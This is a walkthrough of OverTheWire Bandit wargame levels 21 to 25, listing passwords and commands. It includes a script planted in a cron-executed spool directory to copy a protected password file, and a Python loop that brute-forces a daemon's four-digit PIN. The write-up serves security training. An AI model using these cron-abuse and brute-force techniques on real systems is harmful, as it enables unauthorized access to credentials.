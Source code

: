 # OverTheWire Bandit: Level 21 → Level 25 Walkthrough

## Level 21 → Level 22

### Password: `EeoULMCra2q0dSkYj561DX7s1CpBuOBt`

### Goal:
A program is running at regular intervals using cron. Find the cron job for bandit22 and understand what command is being executed.

### Steps:
1. Go to the cron job configuration directory:
   ```bash
   cd /etc/cron.d/
   ```

2. View the cron file related to bandit22:
   ```bash
   cat cronjob_bandit22
   ```

3. This will show the command being executed on behalf of bandit22.

4. Investigate the script it runs:
   ```bash
   cat /usr/bin/cronjob_bandit22.sh
   ```

5. The script outputs the password to a file. Read the file:
   ```bash
   cat /tmp/<filename>
   ```

6. This will reveal the password for bandit22:
   ```bash
   tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
   ```

---

## Level 22 → Level 23

### Password: `tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`

### Goal:
Another cron job is running, and you must analyze the script it executes.

### Steps:
1. Go to the cron directory:
   ```bash
   cd /etc/cron.d/
   ```

2. View the file `cronjob_bandit23`:
   ```bash
   cat cronjob_bandit23
   ```

3. Identify the script being run, e.g.:
   ```bash
   @reboot bandit23 /usr/bin/cronjob_bandit23.sh
   ```

4. View that script:
   ```bash
   cat /usr/bin/cronjob_bandit23.sh
   ```

5. The script should reveal where the password for bandit23 is written.

6. Read that file:
   ```bash
   cat /tmp/<filename>
   ```

7. You'll find the password:
   ```bash
   0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
   ```

---

## Level 23 → Level 24

### Password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

### Goal:
A cron job is running a script that executes files from a specific folder. You'll need to write your own script to extract the password.

### Steps:
1. View the cron job:
   ```bash
   cat /etc/cron.d/cronjob_bandit24
   ```

2. Identify the script:
   ```bash
   /usr/bin/cronjob_bandit24.sh
   ```

3. This script runs all executable files in `/var/spool/bandit24/`.

4. Create your own script:
   ```bash
   echo "cat /etc/bandit_pass/bandit24 > /tmp/mybandit24pass" > /tmp/myscript.sh
   chmod +x /tmp/myscript.sh
   cp /tmp/myscript.sh /var/spool/bandit24/
   ```

5. Wait for a minute and then check:
   ```bash
   cat /tmp/mybandit24pass
   ```

6. Password retrieved:
   ```bash
   gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
   ```

---

## Level 24 → Level 25

### Password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

### Goal:
A daemon running on port 30002 requires the password for bandit24 along with a 4-digit PIN. You must brute-force the correct PIN.

### Steps:
1. Write a Python script to test all PINs:

   ```python
   import socket

   host = "localhost"
   port = 30002
   password = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

   s = socket.socket()
   s.connect((host, port))

   for pin in range(10000):
       pin_str = str(pin).zfill(4)
       s.sendall(f"{password} {pin_str}\n".encode())
       result = s.recv(1024).decode()
       if "Wrong" not in result:
           print("[+] Found PIN:", pin_str)
           print("[+] Output:", result)
           break

   s.close()
   ```

2. Run the script to retrieve the password:
   ```bash
   iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
   ```

---

